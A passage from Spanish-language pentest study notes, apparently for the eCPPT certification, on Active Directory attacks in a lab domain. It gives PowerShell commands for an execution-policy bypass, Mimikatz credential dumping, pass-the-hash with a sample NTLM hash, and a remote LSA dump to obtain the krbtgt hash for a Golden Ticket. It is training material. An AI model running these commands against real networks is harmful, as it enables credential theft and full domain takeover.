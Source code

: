 **Mostar el ticket inyectado en la sesion**

```powershell
klist
```

**Mostar contenido via smb**

```powershell
ls \\prod.research.SECURITY.local\c$
```

#### [[GOLDEN TICKET]]

[](https://github.com/ant0dev/Methodology-eCPPT/blob/main/METODOLOGIA%20ATAQUE%20AD%20%26%20CERTIFICACION%20eCPPTv3.md#golden-ticket)

**Importar el modulo Powerview**

```powershell
# Dar permisos bypass
powershell -ep bypass

# Importar modulo Powerview
. .\PowerView.ps1
```

**Extraer hash NTLM y SID del usuario Administrador**

```powershell
# Importar modulo Mimikatz
. .\Invoke-Mimikatz.ps1

# Extraer hash NTLM
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::logonpasswords"'
```

**Realizar ataque PtH**

```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:research.security.local /ntlm:84398159ce4d01cfe10cf34d5dae3909"'
```

**Desde el cmd del PtH, recuperamos el hash de la cuenta de servicio KRBTGT**

```powershell
# Convertimos la cmd a powershell
powershell

# Directorio de herramientas
cd C:\Tools

# Dar permisos bypass
powershell -ep bypass

# Importar modulo Mimikatz
. .\Invoke-Mimikatz.ps1

# "lsadump::lsa" vuelca los secretos de LSA, y "/patch" hace que Mimikatz parchee el proceso para permitir la exportación de secretos.
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName prod.research.security.local
```
